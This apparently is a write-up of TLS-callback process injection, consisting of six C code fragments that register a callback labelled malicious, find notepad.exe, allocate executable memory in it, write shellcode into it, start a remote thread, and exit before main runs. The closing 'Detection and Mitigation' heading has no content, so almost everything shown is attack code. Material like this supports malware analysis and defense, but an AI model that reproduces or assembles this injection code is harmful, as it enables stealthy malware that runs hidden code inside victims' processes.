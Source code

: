 ### 1. TLS Callback Registration
```c
// Typical TLS callback structure
PIMAGE_TLS_CALLBACK TlsCallbacks[] = {
    TlsCallback_0,  // Our malicious callback
    NULL
};
```

### 2. Process Enumeration
```c
// Enumerate running processes
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 pe32;
Process32First(hSnapshot, &pe32);
```

### 3. Target Selection
```c
// Find specific target process
do {
    if (lstrcmpiA(pe32.szExeFile, "notepad.exe") == 0) {
        targetPID = pe32.th32ProcessID;
        break;
    }
} while (Process32Next(hSnapshot, &pe32));
```

### 4. Memory Injection
```c
// Inject shellcode into target
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, shellcodeSize, 
                                     MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, pRemoteMemory, shellcode, shellcodeSize, NULL);
```

### 5. Remote Execution
```c
// Execute injected code
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, 
                                  (LPTHREAD_START_ROUTINE)pRemoteMemory,
                                  NULL, 0, NULL);
```

### 6. Self-Termination
```c
// Exit before main() runs
ExitProcess(0);
```

## Detection and Mitigation
